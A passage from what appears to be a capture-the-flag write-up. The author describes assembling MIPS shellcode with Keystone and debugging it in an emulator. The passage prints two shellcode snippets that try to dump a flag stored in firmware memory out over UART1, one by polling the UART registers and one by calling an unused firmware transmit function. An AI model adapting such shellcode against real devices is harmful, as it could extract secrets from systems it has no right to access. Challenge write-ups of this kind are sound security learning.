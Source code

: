 I found myself slightly annoyed with some quirks of Keystone:
  - It didn't let me control what went in a branch delay slot, instead
    deciding to assemble every branch into a branch and a `nop`.

    I was worried that this could help me run out of space, but luckily I didn't
    have any trouble making the shellcode fit, even with extra NOPs for padding.

  - I had difficulty inlining comments.

    I'm guessing I just didn't know what comment character it expected
    (I tried two or three but then couldn't be bothered to try more), but it
    would be nice if that were documented clearly somewhere...

Eventually I was getting code to execute and was down to debugging it.
Without access to the interactive debugger, I mostly inserted `break`
instructions to try to halt the emulator at key points.

The first iteration of my shellcode tried to write to UART1 in the same way
that `putchar` wrote to UART0. I was confident this should work, but I always
seemed to get stuck in an infinite loop waiting for the flag on UART1_TXCTL.

```
; a0 = UART1_TXCTL  = 0xa2000018
; a1 = UART1_TXDATA = 0xa200001c
; a2 = FLAG_BEGIN   = 0xa2008000
; a3 = FLAG_END     = 0xa2008100
    lui     $t0, 0xa200
    addiu   $a0, $t0, 0x0018
    addiu   $a1, $t0, 0x001c
    addiu   $a2, $t0, 0x8000
    addiu   $a3, $t0, 0x8100

    add     $t0, $a2, $zero
loop:
    lw      $t1, ($a0)
    nop
    andi    $t1, $t1, 0x0002
    beq     $t1, $0, loop

    nop
    lbu     $t1, ($t0)
    addiu   $t0, $t0, 1
    sw      $t1, ($a1)
    bne     $t0, $a3, loop

    break
```

When that didn't work, I decided to try to call an unused function in the
firmware that seemed to write to UART1 using interrupts instead:

```
; t0 = uart_tx func = 0xbfc04988
; t1 = p_state      = 0xa0180580
; a0 = state        = *p_state
; a1 = flag         = 0xa2008000
; a2 = flag_len     = 0x800
    lui     $t0, 0xbfc0
    addiu   $t0, 0x4988
    nop
    lui     $t1, 0xa018
    lw      $a0, 0x580($t1)
    lui     $a1, 0xa200
    addiu   $a1, 0x8000
    li      $a2, 0x80

    jal     $t0
    nop
```